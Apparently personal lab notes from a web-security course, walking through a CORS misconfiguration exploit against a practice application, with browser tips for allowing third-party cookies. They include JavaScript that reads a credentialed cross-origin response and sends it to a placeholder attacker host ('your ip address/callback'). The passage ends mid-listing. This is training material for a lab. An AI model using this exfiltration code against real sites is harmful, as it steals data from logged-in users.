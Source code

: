 After making sure Apache is running, let's visit the CORS page in a new tab in our browser. We need to have a valid session cookie to the practice application in a separate tab. There's no immediate feedback on our CORS exploit, so let's check the browser console.

  
Tip:

Some browsers restrict cookies on cross-origin requests based on privacy settings. If the following examples do not work, you may need to modify settings in your browser to relax these controls for the **cors1.html** and **cors2.html** pages.

In Chrome and Chromium, you can enable _Third-party cookies_ after loading the page by clicking on _Not secure_, then _Cookies and site data_, and then toggling "Third-party cookies".

In Firefox, you may need to disable Enhanced Tracking Protection for the page by clicking on the shield icon next to the URL and then toggling "Enhanced Tracking Protection is ON for this site".

Accessing the hosted `http://127.0.0.1/cors1.html`
![[Pasted image 20240814170231.png]]
have to unblock the cookies in the top right
![[Pasted image 20240814170246.png]]
Refresh the page and we can now see the `COOKIE` in the `CONSOLE`
![[Pasted image 20240814170419.png]]
Here is the `cors1.html` being utilized in the browser
![[Pasted image 20240814170936.png]]
And here is it working
![[Pasted image 20240814171000.png]]

This example proves that JavaScript running on a different domain can access the results of a CORS request. In a real-world scenario, we wouldn't be able to inspect the victim's browser console. However, since JavaScript can access the response, we can update our page to send the secret code to an arbitrary domain. Let's create a copy of our HTML page and name it `cors2.html`. We'll update the function to send the result back to our Kali VM.

Add this into `cors1.html`:
```html
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://your ip address/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
  });
}
```

After Updated = `cors2.html` & save to `/var/www/html` - without comments
```html
<html>
<head>
<script>
var url = "https://cors-sandbox/code";

function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    credentials: 'include'
  })
  .then(response => response.json())
```
